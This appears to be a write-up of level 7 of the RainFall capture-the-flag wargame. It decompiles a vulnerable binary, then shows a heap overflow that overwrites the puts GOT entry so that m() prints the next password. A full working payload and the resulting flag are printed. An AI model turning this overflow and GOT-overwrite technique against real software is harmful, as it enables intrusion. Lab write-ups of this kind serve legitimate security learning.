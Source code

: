 We retrieve the executable using scp:

```
scp -P 4242 level7@0.0.0.0:/home/user/level7/level7 .
```

I use dogbolt to decompile the code; here's the version with Binary Ninja, with a few tweaks for the sake of clarity:

```c
const c = 0x8049960; // flag is at this address after fgets call

int m() {
    return printf("%s - %d\n", &c, time());
}

int main(int argc, char** argv, char** envp)
{
    int* eax = malloc(8);
    *eax = 1;
    eax[1] = malloc(8);
    int* eax_4 = malloc(8);
    *eax_4 = 2;
    eax_4[1] = malloc(8);
    strcpy(eax[1], argv[1]);
    strcpy(eax_4[1], argv[2]);
    fgets(&c, 68, fopen("/home/user/level8/.pass", "r"));
    puts("~~");
    return 0;
}
```

The program segfaults at the calls to strcpy if the arguments are not added:

```c
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 a b
~~
```

Here's the objdump of the executable:

```nasm
080484f4 <m>:
 80484f4:	55                   	push   %ebp
 80484f5:	89 e5                	mov    %esp,%ebp
 80484f7:	83 ec 18             	sub    $0x18,%esp
 80484fa:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048501:	e8 ca fe ff ff       	call   80483d0 <time@plt>
 8048506:	ba e0 86 04 08       	mov    $0x80486e0,%edx
 804850b:	89 44 24 08          	mov    %eax,0x8(%esp)
 804850f:	c7 44 24 04 60 99 04 	movl   $0x8049960,0x4(%esp)
 8048516:	08 
 8048517:	89 14 24             	mov    %edx,(%esp)
 804851a:	e8 91 fe ff ff       	call   80483b0 <printf@plt>
 804851f:	c9                   	leave  
 8048520:	c3                   	ret    

08048521 <main>:
 8048521:	55                   	push   %ebp
 8048522:	89 e5                	mov    %esp,%ebp
 8048524:	83 e4 f0             	and    $0xfffffff0,%esp
 8048527:	83 ec 20             	sub    $0x20,%esp
 804852a:	c7 04 24 08 00 00 00 	movl   $0x8,(%esp)
 8048531:	e8 ba fe ff ff       	call   80483f0 <malloc@plt>
 8048536:	89 44 24 1c          	mov    %eax,0x1c(%esp)
 804853a:	8b 44 24 1c          	mov    0x1c(%esp),%eax
 804853e:	c7 00 01 00 00 00    	movl   $0x1,(%eax)
 8048544:	c7 04 24 08 00 00 00 	movl   $0x8,(%esp)
 804854b:	e8 a0 fe ff ff       	call   80483f0 <malloc@plt>
 8048550:	89 c2                	mov    %eax,%edx
 8048552:	8b 44 24 1c          	mov    0x1c(%esp),%eax
 8048556:	89 50 04             	mov    %edx,0x4(%eax)
 8048559:	c7 04 24 08 00 00 00 	movl   $0x8,(%esp)
 8048560:	e8 8b fe ff ff       	call   80483f0 <malloc@plt>
 8048565:	89 44 24 18          	mov    %eax,0x18(%esp)
 8048569:	8b 44 24 18          	mov    0x18(%esp),%eax
 804856d:	c7 00 02 00 00 00    	movl   $0x2,(%eax)
 8048573:	c7 04 24 08 00 00 00 	movl   $0x8,(%esp)
 804857a:	e8 71 fe ff ff       	call   80483f0 <malloc@plt>
 804857f:	89 c2                	mov    %eax,%edx
 8048581:	8b 44 24 18          	mov    0x18(%esp),%eax
 8048585:	89 50 04             	mov    %edx,0x4(%eax)
 8048588:	8b 45 0c             	mov    0xc(%ebp),%eax
 804858b:	83 c0 04             	add    $0x4,%eax
 804858e:	8b 00                	mov    (%eax),%eax
 8048590:	89 c2                	mov    %eax,%edx
 8048592:	8b 44 24 1c          	mov    0x1c(%esp),%eax
 8048596:	8b 40 04             	mov    0x4(%eax),%eax
 8048599:	89 54 24 04          	mov    %edx,0x4(%esp)
 804859d:	89 04 24             	mov    %eax,(%esp)
 80485a0:	e8 3b fe ff ff       	call   80483e0 <strcpy@plt>
 80485a5:	8b 45 0c             	mov    0xc(%ebp),%eax
 80485a8:	83 c0 08             	add    $0x8,%eax
 80485ab:	8b 00                	mov    (%eax),%eax
 80485ad:	89 c2                	mov    %eax,%edx
 80485af:	8b 44 24 18          	mov    0x18(%esp),%eax
 80485b3:	8b 40 04             	mov    0x4(%eax),%eax
 80485b6:	89 54 24 04          	mov    %edx,0x4(%esp)
 80485ba:	89 04 24             	mov    %eax,(%esp)
 80485bd:	e8 1e fe ff ff       	call   80483e0 <strcpy@plt>
 80485c2:	ba e9 86 04 08       	mov    $0x80486e9,%edx
 80485c7:	b8 eb 86 04 08       	mov    $0x80486eb,%eax
 80485cc:	89 54 24 04          	mov    %edx,0x4(%esp)
 80485d0:	89 04 24             	mov    %eax,(%esp)
 80485d3:	e8 58 fe ff ff       	call   8048430 <fopen@plt>
 80485d8:	89 44 24 08          	mov    %eax,0x8(%esp)
 80485dc:	c7 44 24 04 44 00 00 	movl   $0x44,0x4(%esp)
 80485e3:	00 
 80485e4:	c7 04 24 60 99 04 08 	movl   $0x8049960,(%esp)
 80485eb:	e8 d0 fd ff ff       	call   80483c0 <fgets@plt>
 80485f0:	c7 04 24 03 87 04 08 	movl   $0x8048703,(%esp)
 80485f7:	e8 04 fe ff ff       	call   8048400 <puts@plt>
 80485fc:	b8 00 00 00 00       	mov    $0x0,%eax
 8048601:	c9                   	leave  
 8048602:	c3                   	ret    
```

In normal usage with the arguments 'a' and 'b', by setting a breakpoint at the end of the program before fgets:

```nasm
0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    %eax,0x8(%esp)
   0x080485dc <+187>:	movl   $0x44,0x4(%esp)
=> 0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave  
   0x08048602 <+225>:	ret
```

edx and eax contain the following values:

```nasm
(gdb) x/s 0x80486e9
0x80486e9:	 "r"
(gdb) x/s 0x80486eb
0x80486eb:	 "/home/user/level8/.pass"
```

At the end of the program, here's what happens:

```nasm
   0x080485c2 <+161>:	mov    $0x80486e9,%edx ; "r"
   0x080485c7 <+166>:	mov    $0x80486eb,%eax ; "/home/user/level8/.pass"
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    %eax,0x8(%esp)
   0x080485dc <+187>:	movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	movl   $0x8048703,(%esp) ; "~~"
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave  
   0x08048602 <+225>:	ret
```

The arguments are sent to the ESP register for use with fopen:

```nasm
(gdb) x/s 0x80486e9
0x80486e9:	 "r"
(gdb) x/s 0x80486eb
0x80486eb:	 "/home/user/level8/.pass"
```

The pointer to the file, contained in EAX which was returned by the call to fopen, along with the integer 68 (0x44), and a memory address (0x8049960) to store the content to be read, are passed as arguments to fgets(). Finally, a call to puts is made with `0x8048703`, containing "~~", as an argument:

```nasm
(gdb) x/s 0x8048703
0x8048703:	 "~~"
```

The memory address where the flag will be found, `0x8049960`, is also the address that printf displays in the m() function:

```nasm
 804850f:	c7 44 24 04 60 99 04 	movl   $0x8049960,0x4(%esp) <---
 8048516:	08 
 8048517:	89 14 24             	mov    %edx,(%esp)
 804851a:	e8 91 fe ff ff       	call   80483b0 <printf@plt>
```

Therefore, a way must be found to call the m() function after the call to fgets().

Here, we can see that a buffer overflow on the first strcpy allows us to rewrite the dest argument of the second one starting from an offset of 20:

```nasm
level7@RainFall:~$ ltrace ./level7 $(python -c 'print "a" * 24') b
__libc_start_main(0x8048521, 3, 0xbffff7d4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                              = 0x0804a008
malloc(8)                              = 0x0804a018
malloc(8)                              = 0x0804a028
malloc(8)                              = 0x0804a038
strcpy(0x0804a018, "aaaaaaaaaaaaaaaaaaaaaaaa") = 0x0804a018
strcpy(0x61616161, "b" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

It is thus possible to rewrite any content at any address, knowing that the second argument corresponds to the source of the second strcpy.

We therefore have an argument structure that can be made up of:

- argv1 = 20+addr
- argv2 = content

Since the program must go through fgets before displaying the flag, we can use the puts() function, which is unnecessary in the program, by performing a GOT overwrite as in level5:

```nasm
level7@RainFall:~$ objdump -R ./level7

./level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts ; <-----
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen
```

By overwriting the address of puts() with the address of the m() function, the program should be able to display the flag. So now we have:

`arg1(offset(20) + puts(08049928)) arg2(m(080484f4))`

Which gives us the following payload:

```nasm
./level7 $(python -c 'print "a" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```

And here is the flag!

```nasm
level7@RainFall:~$ ./level7 $(python -c 'print "a" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1704474940
```